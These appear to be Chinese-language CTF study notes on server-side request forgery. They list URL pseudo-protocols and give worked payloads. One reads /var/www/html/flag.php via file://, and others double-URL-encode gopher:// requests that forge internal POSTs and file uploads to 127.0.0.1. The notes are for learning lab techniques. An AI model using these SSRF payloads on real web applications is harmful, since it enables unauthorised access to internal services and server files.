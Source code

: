 ## 伪协议

[伪协议学习](https://www.cnblogs.com/-mo-/p/11673190.html)

- file:// + 绝对路径

- http:// 访问http网址

- php:// 访问各个输入/输出流（I/O streams）

- dict://

- sftp://

- ldap://

- tftp://

- gopher:// 跳转协议->`gopher://<host>:<port>/<gopher-path>`,  `<port>`默认为70。

  \<gopher-path\>:

  ```
  <gophertype><selector>
  <gophertype><selector>%09<search>
  <gophertype><selector>%09<search>%09<gopher+_string>
  ```

  `<selector>`个人理解这个是包的内容，为了避免一些特殊符号需要进行url 编码

  [gopher在SSRF中的应用](https://xz.aliyun.com/t/6993)

## POST请求

  先找到key:

  用file协议查看flag.php(需要绝对路径 /var/www/html)

  ```http
  POST /?url=127.0.0.1/flag.php HTTP/1.1
  ......
  
  key=<?php echo $key;?>
  ```

  这样就获得了key=63012374d442cc13847c5bfe52beeabd

  构造gopher的payload

  ``` http
  gopher://127.0.0.1:80/_POST /flag.php HTTP/1.1%0d%0a
  Host: 127.0.0.1:80%0d%0a
  Content-Length: 36%0d%0a
  Content-Type: application/x-www-form-urlencoded%0d%0a
  %0d%0a
  key=63012374d442cc13847c5bfe52beeabd%0d%0a
  ```

  再url编码一次

  ```
  gopher%3a%2f%2f127.0.0.1%3a80%2f_POST+%2fflag.php+HTTP%2f1.1%250d%250a
  Host%3a+127.0.0.1%3a80%250d%250a
  Content-Length%3a+36%250d%250a
  Content-Type%3a+application%2fx-www-form-urlencoded%250d%250a
  %250d%250a
  key%3d63012374d442cc13847c5bfe52beeabd%250d%250a
  // 需要删去中间的换行
  ->
  gopher%3a%2f%2f127.0.0.1%3a80%2f_POST+%2fflag.php+HTTP%2f1.1%250d%250aHost%3a+127.0.0.1%3a80%250d%250aContent-Length%3a+36%250d%250aContent-Type%3a+application%2fx-www-form-urlencoded%250d%250a%250d%250akey%3d63012374d442cc13847c5bfe52beeabd%250d%250a
  ```

  最后在burp上的payload

  ```http
  GET /?url=gopher%3a%2f%2f127.0.0.1%3a80%2f_POST+%2fflag.php+HTTP%2f1.1%250d%250aHost%3a+127.0.0.1%3a80%250d%250aContent-Length%3a+36%250d%250aContent-Type%3a+application%2fx-www-form-urlencoded%250d%250a%250d%250akey%3d63012374d442cc13847c5bfe52beeabd%250d%250a HTTP/1.1
  ```

## 上传文件

* 用file://查看源代码

```
?url=file:///var/www/html/flag.php
```

发现需要上传一个文件，而且文件大小要大于零（不能是空文件）

* 用http协议进入flag.php

```
?url=http://127.0.0.1/flag.php
```

发现可以提交文件，但是没有submit按钮

* 自己添加submit

```html
<input type="submit" name="submit">
```

* 然后提交文件，burp抓包
* 将host 改成127.0.0.1
* 将POST改成gopher://127.0.0.1:80/_POST
* 换行处加上%0d%0a
* url编码一次
* 然后从index.php 处用gopher://跳转提交
